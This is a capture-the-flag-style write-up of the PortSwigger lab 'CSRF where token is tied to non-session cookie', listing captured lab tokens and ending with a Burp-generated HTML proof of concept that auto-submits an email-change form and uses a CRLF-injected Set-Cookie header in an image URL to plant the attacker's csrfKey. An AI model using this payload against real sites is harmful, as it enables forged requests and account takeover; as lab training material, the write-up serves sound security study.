 ## Lab Description: CSRF where token is tied to non-session cookie


## Solution

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/09d2716c-58a9-4ad8-93b6-af2febc8a33e)


For User Wiener 

csrf: gDbE9aGELpWRSrZzpZEKiBbylXUETUFq
csrfkey: LbMYzTBNpxwMUXksBmrOjPbthEd8Na4f

For User Carlos 

csrf: OVfPpgEizfZ5aZBoTEsroDPgKMNt3YM4
csrf Key: 24uBgd1HRRlHUII7bYBNz7F1lVekHYDc

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8bd8fe0b-5e4a-4a9e-a484-5061cafc35a6)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6ad8180c-31df-4fdf-b21e-762a9e349ea4)

we are able to change the email test@3123@gmail.com

In order to exploit this vulnerability we need to perform 2 things: 
- Inject a csrfkey cookie in the user session
- Send a csrf  attack to the victim with a known a csrf token

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/21cf1671-4f61-4f81-987f-46b9628f543d)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/614289c9-9d8e-4f47-b3f1-18ee06cd50e8)



we have to add csrf key in request 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/53c90d0f-f534-42a2-8892-2cdf7849f8d0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1cc784c3-31e6-48fa-b0ce-5b97dba3970f)



```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aab003204ee358e802f0dac002c0038.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test623&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="gDbE9aGELpWRSrZzpZEKiBbylXUETUFq" />
      <input type="submit" value="Submit request" />
    </form>
		<img src="https://0aab003204ee358e802f0dac002c0038.web-security-academy.net/?search=hello%0d%0aSet-Cookie:%20csrfKey=LbMYzTBNpxwMUXksBmrOjPbthEd8Na4f" onerror="document.forms[0].submit">
  </body>
</html>
```
